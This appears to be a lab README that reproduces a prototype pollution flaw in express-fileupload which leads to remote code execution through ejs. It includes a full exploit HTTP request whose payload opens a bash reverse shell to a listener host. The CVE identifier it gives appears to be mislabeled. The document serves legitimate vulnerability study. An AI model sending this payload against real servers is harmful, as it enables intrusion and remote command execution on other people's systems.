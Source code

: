 # NodeJS expresss-fileupload protype pollution vulnerability（CVE-2022-7699）

## Vulnerability principle

`express-fileupload` is a express middleware for uploading files. In the version prior `1.1.7-alpha.4`, it has a protype pollution vulnerability. And if also the website use `ejs(<=3.1.6)` which is a template engine, the `outputFunctionName` parameter can be polluted by constructing a call chain, thereby causing remote code execution.

References：

- https://blog.p6.is/Real-World-JS-1/
- https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html

## Vulnerability Environment

Execute the following commands to start:

```bash
docker-compose build
docker-compose up -d
```

## Vulnerability Reproduce

After the server is started, you can visit the page at `http://your-ip:3000/`

![img](1.png)

Set a listener firstly, then send the following package which can reverse shell.

```text
POST /upload HTTP/1.1
Host: Host: your-ip:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Content-Length: 306
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypDa6OHB96f0GI9ze

------WebKitFormBoundarypDa6OHB96f0GI9ze
Content-Disposition: form-data; name="__proto__.outputFunctionName"

x;process.mainModule.require('child_process').exec('bash -c "bash -i &> /dev/tcp/your-ip/4444 0>&1"');delete Object.prototype['outputFunctionName'];x
------WebKitFormBoundarypDa6OHB96f0GI9ze--
```

PS：Afer send the package, the prototype of the whole program will be polluted. It maybe affect the normal access to the website unless reboot. So we need to remove polluted protype.
